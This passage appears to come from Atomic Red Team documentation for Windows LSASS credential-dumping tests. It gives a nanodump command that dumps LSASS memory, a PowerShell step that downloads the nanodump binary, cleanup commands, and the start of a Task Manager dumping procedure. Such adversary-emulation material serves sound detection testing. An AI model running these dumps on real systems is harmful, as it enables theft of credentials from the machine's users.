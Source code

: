 **auto_generated_guid:** dddd4aca-bbed-46f0-984d-e4c5971c51ea






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe -w "%temp%\nanodump.dmp"
```

#### Cleanup Commands:
```cmd
del "%temp%\nanodump.dmp" >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: NanoDump executable must exist on disk at specified location (PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe)
##### Check Prereq Commands:
```powershell
if (Test-Path PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/fortra/nanodump/blob/2c0b3d5d59c56714312131de9665defb98551c27/dist/nanodump.x64.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe"
```




<br/>
<br/>

## Atomic Test #5 - Dump LSASS.exe Memory using Windows Task Manager
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with the Windows Task
Manager and administrative permissions.

**Supported Platforms:** Windows


**auto_generated_guid:** dea6c349-f1c6-44f3-87a1-1ed33a59a607





#### Run it with these steps! 
1. Open Task Manager:
  On a Windows system this can be accomplished by pressing CTRL-ALT-DEL and selecting Task Manager or by right-clicking
  on the task bar and selecting "Task Manager".
